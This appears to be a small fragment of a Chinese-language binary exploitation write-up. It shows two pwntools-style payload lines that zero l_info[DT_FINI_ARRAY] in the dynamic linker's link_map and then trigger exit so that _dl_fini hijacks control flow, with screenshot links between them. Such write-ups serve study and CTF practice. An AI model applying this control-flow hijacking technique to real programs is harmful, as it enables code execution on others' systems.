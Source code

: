 ```bash
payload += b'@' + p32(dt_fini_array-dt_fini-1) + write(p64(0)) 
#l->l_info[DT_FINI_ARRAY] = 0
```

[![](assets/1701612101-b35e05de74c8e7fa33193464b40fc801.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230914100822-94e5ffe0-52a3-1.png)

[![](assets/1701612101-445e7e89323f4cd7ad5d154aede28352.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230914100831-9a0480dc-52a3-1.png)

```bash
payload += b'q'
#显式触发 exit 函数调用_dl_fini 函数，进而控制程序流
```
